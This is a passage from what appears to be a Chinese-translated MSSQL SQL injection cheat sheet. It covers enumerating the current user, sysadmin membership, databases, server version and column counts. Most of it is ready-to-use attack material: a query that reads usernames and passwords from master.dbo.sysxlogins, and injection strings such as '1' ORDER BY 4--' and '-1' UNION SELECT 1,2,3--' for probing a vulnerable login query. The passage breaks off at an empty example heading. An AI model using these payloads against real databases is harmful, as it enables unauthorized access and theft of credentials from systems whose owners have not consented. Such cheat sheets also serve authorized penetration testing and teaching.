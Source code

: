 	Database..Table	master..syslogins, master..sysprocesses
	Columns	name, loginame
	Current User	user, system_user, suser_sname(), is_srvrolemember('sysadmin')
	Database Credentials	SELECT user, password FROM master.dbo.sysxlogins

__例子__

	Return current user:
	SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;
	
	Check if user is admin:
	SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);

#### 数据库名字

	Database.Table	master..sysdatabases
	Column	name
	Current DB	DB_NAME(i)

__例子__

	SELECT DB_NAME(5);
	SELECT name FROM master..sysdatabases;

#### 服务器名字

	@@SERVERNAME
	SERVERPROPERTY()

__例子__

	SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel'), SERVERPROPERTY('edition');

__注意__

* SERVERPROPERTY() 适用于`MSSQL 2005`和更高版本

#### 表和列

##### 测试列个数

	ORDER BY n+1;

__例子__

	Given the query: SELECT username, password, permission FROM Users WHERE id = '1';
	
	1' ORDER BY 1--	True
	1' ORDER BY 2--	True
	1' ORDER BY 3--	True
	1' ORDER BY 4--	False - Query is only using 3 columns
	-1' UNION SELECT 1,2,3--	True

__注意__： 依次增加这个数字，直到得到错误的响应。

以下内容可用于获取当前查询中的列。

	GROUP BY / HAVING

__例子__
